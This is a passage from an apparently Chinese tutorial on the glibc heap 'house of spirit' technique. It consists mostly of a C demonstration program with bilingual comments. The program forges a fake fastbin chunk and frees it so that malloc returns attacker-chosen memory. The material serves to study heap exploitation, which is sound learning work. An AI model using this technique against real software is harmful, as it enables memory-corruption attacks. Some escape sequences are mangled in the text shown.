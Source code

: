 我们的house of spirit是通过free一个伪造的fastbin chunk来任意地址malloc

让我们来看看和tcache有什么区别吧

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

int main()
{
    fprintf(stderr, "This file demonstrates the house of spirit attack.n");
  //调用一次malloc来初始化堆  
    fprintf(stderr, "Calling malloc() once so that it sets up its memory.n");
    malloc(1);

  //现在我们将覆写一个指针来指向一个伪造的fastbin域
    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.n");
    unsigned long long *a;
  //这个和fastbinY无关,不要被这个10所骗,fake_chunks只是一块内存
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

  //这个域包含了两个chunk,第一个从fake_chunks[1]开始,另一个从fake_chunks[9]开始
    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.n", sizeof(fake_chunks), &amp;fake_chunks[1], &amp;fake_chunks[9]);

  //这个chunk的size必须符和fastbin的要求(&lt;=128 x64位系统),PREV_INUSE位在fasybin-sized chunks中也是被忽略的,但是IS_MAPPED和NON_MAIN_AREN会引发一些问题
    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accommodate the chunk data) while still falling into the fastbin category (&lt;= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. n");
    fake_chunks[1] = 0x40; // this is the size

  //下一个fake chunk的size必须是合法的。 即&gt; 2 * SIZE_SZ（在x64上需要&gt; 16）和＆&lt;av-&gt; system_mem（对于main arena来说，默认为&lt;128kb）并且可以通过nextsize完整性检查。 但是我们无需符和Fastbin的大小
    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is &gt; 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem (&lt; 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

  //现在我们将通过有着fake first chunks的fake区域地址来覆写我们的指针
    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.n", &amp;fake_chunks[1]);
  //要注意的是,chunk必须是16字节对齐的
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.n");
    a = &amp;fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.n");
    free(a);
  //现在下一次的malloc就将会返回我们的fake chunk了
    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!n", &amp;fake_chunks[1], &amp;fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %pn", malloc(0x30));
}
```